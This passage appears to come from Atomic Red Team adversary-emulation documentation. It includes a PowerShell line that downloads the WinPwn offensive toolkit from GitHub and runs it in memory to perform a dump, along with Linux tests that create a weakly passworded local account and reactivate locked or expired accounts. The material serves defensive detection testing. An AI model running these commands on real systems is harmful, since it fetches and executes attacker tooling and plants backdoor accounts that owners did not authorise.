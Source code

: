 ```powershell
$S3cur3Th1sSh1t_repo='https://raw.githubusercontent.com/S3cur3Th1sSh1t'
iex(new-object net.webclient).downloadstring('https://raw.githubusercontent.com/S3cur3Th1sSh1t/WinPwn/121dcee26a7aca368821563cbe92b2b5638c5773/WinPwn.ps1')
safedump -consoleoutput -noninteractive
```

<br/>
<br/>

## Atomic Test #8 - Create local account (Linux)

An adversary may wish to create an account with admin privileges to work with. In this test we create a "art" user with the password art, switch to art, execute whoami, exit and delete the art user.

**Supported Platforms:** Linux

**auto_generated_guid:** 02a91c34-8a5b-4bed-87af-501103eb5357

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
password=$(openssl passwd -1 art)
([ "$(uname)" = 'Linux' ] && useradd --shell /bin/bash --create-home --password $password art) || (pw useradd art -g wheel -s /bin/sh && (echo $password | pw mod user testuser1 -h 0))
su art -c "whoami; exit"
```

#### Cleanup Commands:

```bash
[ "$(uname)" = 'Linux' ] && userdel art -rf || rmuser -y art
```

<br/>
<br/>

## Atomic Test #9 - Reactivate a locked/expired account (Linux)

A system administrator may have locked and expired a user account rather than deleting it. "the user is coming back, at some stage" An adversary may reactivate a inactive account in an attempt to appear legitimate.

In this test we create a "art" user with the password art, lock and expire the account, try to su to art and fail, unlock and renew the account, su successfully, then delete the account.

**Supported Platforms:** Linux

**auto_generated_guid:** d2b95631-62d7-45a3-aaef-0972cea97931

#### Attack Commands: Run with `bash`! Elevation Required (e.g. root or admin)

```bash
useradd --shell /bin/bash --create-home --password $(openssl passwd -1 art) art
usermod --lock art
usermod --expiredate "1" art
usermod --unlock art
usermod --expiredate "99999" art
su art
whoami
exit
```
